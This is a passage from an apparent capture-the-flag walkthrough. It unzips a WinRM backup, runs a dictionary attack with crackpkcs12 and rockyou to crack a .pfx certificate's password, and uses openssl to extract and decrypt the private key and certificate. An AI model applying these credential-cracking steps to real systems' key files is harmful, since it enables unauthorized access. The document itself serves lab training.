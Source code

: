 Now Let's unzip the file and extract the content stored in it. and we able to the extract the **legacy_dev_auth.pfx** file.

```shell
unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx 
```

### Dealing with .pfx file

**PFX** (Personal Exchange Format) file is a digital certificate file format used in **Microsoft Windows** and other systems to store a **private key** and a corresponding **public key certificate**, along with any intermediate certificates that may be necessary to establish the trust chain. PFX files are often used for importing and exporting certificates between different systems or applications. A PFX file is typically **password-protected** to prevent unauthorized access to the private key and the sensitive information it contains. When a PFX file is imported into a system or application, the password is required to unlock and access the private key.
 So now we first need to decrypt it to get the stored key's and for decryption we need password or key. So we will use tool called **crackpkcs12** to crack it's password. **crackpkcs12** is a tool to audit **PKCS#12** files passwords (extension **.p12** or **.pfx**). It's written in C and uses **openssl** library. You can download it from [here](https://github.com/crackpkcs12/crackpkcs12)
we will break its password using tool **crackpkcs12**. Here we will be using dictionary attack. 

```shell
$ crackpkcs12 -d /usr/share/seclists/SecLists-master/Passwords/Leaked-Databases/rockyou.txt legacyy_dev_auth.pfx -v

Dictionary attack - Starting 4 threads

Performance:              3231899 passwords [    2953 passwords per second]
*********************************************************
Dictionary attack - Thread 4 - Password found: thuglegacy
*********************************************************
```

Now let's Extract **.key** and **.crt** from **.pfx** file because SSL certificate (Public Key) and corresponding Private key are stored in **.pfx** file which is encrypted and unreadable. For better understanding give a it a look. [here](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) 

```shell
# Extract Key file
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:

# Extract Certificate File.
$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out crt.crt
Enter Import Password:

# Decrypting the Key
$ openssl rsa -in key.key -out dec_key.key
Enter pass phrase for key.key:
writing RSA key
```
